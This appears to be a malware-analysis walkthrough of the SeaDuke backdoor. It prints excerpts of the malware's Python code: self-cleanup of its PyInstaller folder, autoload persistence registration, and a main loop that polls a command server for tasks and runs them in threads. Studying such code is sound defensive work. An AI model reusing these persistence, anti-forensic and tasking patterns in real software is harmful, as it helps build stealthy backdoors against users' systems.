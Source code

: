 # 2) seh_wrapper
## doing seh_wrapper()
```python
def seh_wrapper():
    if botKlass.frozen:
        # _MEIPASS is the partial foldername where Python libraries are stored.
        # Cleaning up these directories to remove any remnants.
        attr__MEIPASS=getattr(sys,'_MEIPASS', None)
        botKlass.add_cleanup_dir(attr__MEIPASS)
        botKlass.do_cleanup_dirs()
    if botKlass.enable_autoload and not botKlass.autoload_registered:
        botActionKlass=BotSelfActionsKlass()
        botActionKlass.register()
    try:
        main()
    except KeyboardInterrupt as ki:
        sys_exit(0)
```
### first, it cleans up after itself
seaduke finds the temporary folder used by pysinstaller.
```python
attr__MEIPASS=getattr(sys,'_MEIPASS', None)  # https://stackoverflow.com/questions/22472124/what-is-sys-meipass-in-python
```
it then cleans up after itself with:
```python
def seh_wrapper():
    if botKlass.frozen:
        ...
        botKlass.add_cleanup_dir(attr__MEIPASS)
        botKlass.do_cleanup_dirs()
```
finally, it calls `main()`.

## main()
```python
def main():
    threadStuffKlass=DoingThreadStuffKlass()
    networkHandleKlass=NetworkHandlerKlass()
    while 1:
        gc_collect() # Garbage collector
        pass
        networkTasks=networkHandleKlass.get_tasks()
        pass
        if networkTasks:
            for networkTask in networkTasks:
                taskID=networkTask.get('task_id',None)
                taskData=networkTask.get('task_data',None)
                if taskID and taskData:
                    if not threadStuffKlass.have_task(taskID):
                        try:
                            threadStuffKlass.put(taskID,taskData)
                            botKlass.reset_tick_count()
                        except KeyboardInterrupt as ki:
                            time_sleep(5)
                            sys_exit(0)
                        except Exception as e:
                            pass
            time_sleep(random_randint(3,7))
        else:
            time_sleep(random_randint(*botKlass.update_interval))
            botKlass.tick_count+=1
```
### instantiate threads and network handler
first, we instantiate a `DoingThreadStuffKlass` object and a `NetworkHandlerKlass` object.
```python
def main():
    threadStuffKlass=DoingThreadStuffKlass()


class DoingThreadStuffKlass(object):
    def __init__(self):
        self.threads={}


class NetworkHandlerKlass(object):
    def __init__(self,**pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTzDeiQ):
        self.__url=pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTzDeiQ.get('url',None)
        self.user_agent=botKlass.user_agent
```